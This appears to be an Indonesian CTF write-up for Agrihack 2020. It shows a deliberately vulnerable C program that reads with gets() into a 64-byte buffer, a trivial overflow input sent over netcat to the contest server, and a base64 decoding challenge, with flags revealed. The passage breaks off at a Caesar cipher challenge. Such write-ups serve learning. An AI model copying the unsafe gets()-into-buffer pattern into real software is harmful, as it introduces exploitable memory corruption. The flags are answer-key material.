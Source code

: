 # WriteUp-Agrihack-2020

# Binary Exploitation
## FLOW 1 (100 Pts)

Diberikan sebuah source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

//gcc flow1.c -m32 -fno-stack-protector -no-pie -o flow1

void logo(){
  puts("██╗     ██╗███╗   ██╗███████╗");
  puts("██║     ██║████╗  ██║╚══███╔╝");
  puts("██║     ██║██╔██╗ ██║  ███╔╝ ");
  puts("██║     ██║██║╚██╗██║ ███╔╝  ");
  puts("███████╗██║██║ ╚████║███████╗");
  puts("╚══════╝╚═╝╚═╝  ╚═══╝╚══════╝");
}

void setup(){
	setvbuf(stdin,0,2,0);
	setvbuf(stdout,0,2,0);
}


int main(int argc, char **argv)
{
  logo();
  setup();
  volatile int modified;
  char buffer[64];
  modified = 0;
  
  printf("Put some text: ");

  gets(buffer);

  if(modified != 0) {
      system("cat flag.txt");
  } else {
      printf("Try again?\n");
  }
}
```

Dan sebuah nc 52.187.65.2 17001.
Dari code kita tahu bahwa buffer overflow terjadi ketika data char lebih dari 64 byte, langsung saja kita input karakter lebih dari 64 byte

```
ilham@ilham-Acer:~$ nc 52.187.65.2 17001
██╗     ██╗███╗   ██╗███████╗
██║     ██║████╗  ██║╚══███╔╝
██║     ██║██╔██╗ ██║  ███╔╝ 
██║     ██║██║╚██╗██║ ███╔╝  
███████╗██║██║ ╚████║███████╗
╚══════╝╚═╝╚═╝  ╚═══╝╚══════╝
Put some text: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
agrihack{Toooooooooo_much_character_is_dangerous_LINZ_IS_HERE}
/home/ctf/run_challenge.sh: line 2:   853 Segmentation fault      (core dumped) ./chall
```

**flag: agrihack{Toooooooooo_much_character_is_dangerous_LINZ_IS_HERE}**

# Cryptography

## Basic64 (100 pts)
Diberikan file enc.txt dan dilihat isinya:

![image22](https://user-images.githubusercontent.com/66354919/140281216-b8237a0a-cfcb-4de1-8c99-9808ea6cd34b.png)

Karena hintnya adalah base64, langsung saja kita decode base64 tersebut
```
In [4]: import base64

In [5]: base64.b64decode("YWdyaWhhY2t7YmFzaWNfdG9fa25vd19iYXNlNjR9")
Out[5]: 'agrihack{basic_to_know_base64}'
```
sehingga flagnya: agrihack{basic_to_know_base64} 

## Introduction to Cipher_Series : ROMAN (120 pts)
Diberikan file caesar.png:

![image60](https://user-images.githubusercontent.com/66354919/140281378-d4b26a0b-1721-4c08-bfa6-8ab725a9da89.png)



